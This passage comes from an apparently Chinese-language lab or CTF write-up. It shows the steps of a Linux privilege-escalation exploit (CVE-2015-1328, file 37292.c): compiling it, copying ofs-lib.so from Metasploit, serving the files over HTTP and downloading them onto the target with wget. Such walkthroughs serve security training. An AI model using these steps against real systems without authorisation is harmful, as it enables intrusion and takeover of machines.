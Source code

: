 #### 5.4漏洞利用

gcc编译

```
gcc -o exp 37292.c
```

![image-20210918121714255](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918121714255.png)

编译过程中报错，但**不影响最终执行结果**

查看编译生成的exp

```
ls -l
```

![image-20210918121816991](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918121816991.png)

配合exp执行使用还需要二进制的库文件**ofs-lib.so**，定位查找该文件路径

```
locate ofs-lib.so
```

![image-20210918122041377](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918122041377.png)

拷贝至当前目录

```
cp /usr/share/metasploit-framework/data/exploits/CVE-2015-1328/ofs-lib.so .
```

```
ls
```

![image-20210918122314167](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918122314167.png)

两个文件都在当前目录下

准备将其一并被下载到目标宿主机上，启动http服务

```
python3 -m http.server 80
```

![image-20210918122427173](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918122427173.png)

下载文件

```
wget http://10.0.2.4/exp
```

```
wget http://10.0.2.4/ofs-lib.so
```

![image-20210918122710747](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918122710747.png)
